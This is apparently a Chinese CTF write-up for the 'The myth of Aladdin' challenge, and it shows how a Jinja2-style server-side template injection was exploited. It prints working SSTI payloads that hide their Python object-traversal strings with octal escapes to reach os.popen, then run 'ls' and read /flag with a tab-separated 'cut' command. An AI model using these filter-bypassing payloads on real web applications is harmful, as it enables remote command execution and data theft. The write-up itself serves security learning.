 # The myth of Aladdin

> 知识点: SSTI 模板注入, 八进制绕过, cut 截断读取文件
>

探测是否存在 SSTI

```
{%print(7-5)%}
```

然后测试发现禁用了很多类, 可以使用双引号, 尝试后发现八进制可以注入

```p
{%print(()["\137\137\143\154\141\163\163\137\137"]["\137\137\142\141\163\145\137\137"]["\137\137\163\165\142\143\154\141\163\163\145\163\137\137"]()[95]["\137\137\151\156\151\164\137\137"]["\137\137\147\154\157\142\141\154\163\137\137"]["\137\137\142\165\151\154\164\151\156\163\137\137"]["\137\137\151\155\160\157\162\164\137\137"]("o""s")["\160\157\160\145\156"]("ls")["\162\145\141\144"]())%}
```

可以注入后读取根目录的 flag, 发现不能直接读取, 尝试用 cut 截断数组带出

```
{%print(()["\137\137\143\154\141\163\163\137\137"]["\137\137\142\141\163\145\137\137"]["\137\137\163\165\142\143\154\141\163\163\145\163\137\137"]()[95]["\137\137\151\156\151\164\137\137"]["\137\137\147\154\157\142\141\154\163\137\137"]["\137\137\142\165\151\154\164\151\156\163\137\137"]["\137\137\151\155\160\157\162\164\137\137"]("o""s")["\160\157\160\145\156"]("c""ut%09-c%092-40%09/fl""ag")["\162\145\141\144"]())%}
```

结果

![20210424161605584](img/20210424161605584.png)